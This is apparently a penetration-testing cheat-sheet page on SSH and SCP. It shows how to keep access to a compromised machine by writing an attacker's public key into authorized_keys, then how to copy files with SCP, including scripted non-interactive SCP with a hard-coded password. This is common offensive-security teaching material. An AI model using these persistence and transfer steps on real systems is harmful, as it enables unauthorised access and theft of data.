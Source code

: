 # ⭕ SSH

## <mark style="color:red;">SSH - SCP</mark>

### <mark style="color:orange;">Generate Key Pair</mark>

if you manage to upload a reverse-shell and get access to the machine you might be able to enter using ssh. Which might give you a better shell and more stability, and all the other features of SSH. Like transferring files.

So, in the /home/user directory you can find the hidden .ssh files by typing ls -la. Then you need to do two things:

#### Create a new keypair, You do that with:

```
ssh-keygen -t rsa -C "your_email@example.com"
```

This will create two files, one called nameOfMyKey and another called nameOfMyKey\_pub. The one with the \_pub is of course your public key. And the other key is your private.

#### Add your public key to authorized\_keys.

Now you copy the content of nameOfMyKey\_pub. On the compromised machine you go to \~/.ssh and then run add the public key to the file authorized\_keys. Like this

```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQqlhJKYtL/r9655iwp5TiUM9Khp2DJtsJVW3t5qU765wR5Ni+ALEZYwqxHPNYS/kZ4Vdv..." > authorized_keys
```

#### Log in.

```
ssh -i nameOfMyKey kim@192.168.1.103
```

## <mark style="color:red;">SCP File Transfer</mark>

#### Copy a file:

```
scp /path/to/source/file.ext username@192.168.1.101:/path/to/destination/file.ext
```

#### Copy a directory:

```
scp -r /path/to/source/dir username@192.168.1.101:/path/to/destination
```

## <mark style="color:red;">non-interactive SCP</mark>

The only reason that a one-liner doesn’t work is because SCP prompts the user for a password, and simply echoing the password and piping it to the command won’t work. The list of commands to build the file looks like this:

```
echo '#!/usr/bin/expect' > scp.exp
echo 'spawn scp username@ip-addr:/path-to-file out-file' >> scp.exp
echo 'set pass "password"' >> scp.exp
echo 'expect {' >> scp.exp
echo 'password: {send "$pass\r"; exp_continue}' >> scp.exp
echo '}' >> scp.exp
```

To run this file

```
expect scp.exp
```

{% hint style="info" %}
you MUST use single quotes to surround the lines, as using double quotes will overlap with the double quotes that are included within the line, and will cause an issue with the first line
{% endhint %}
